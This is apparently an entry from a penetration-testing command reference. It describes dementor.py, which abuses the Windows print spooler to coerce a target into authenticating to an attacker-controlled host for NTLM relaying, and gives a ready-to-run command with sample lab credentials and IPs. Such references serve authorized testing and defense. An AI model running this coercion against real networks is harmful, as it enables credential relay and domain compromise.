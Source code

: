 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```

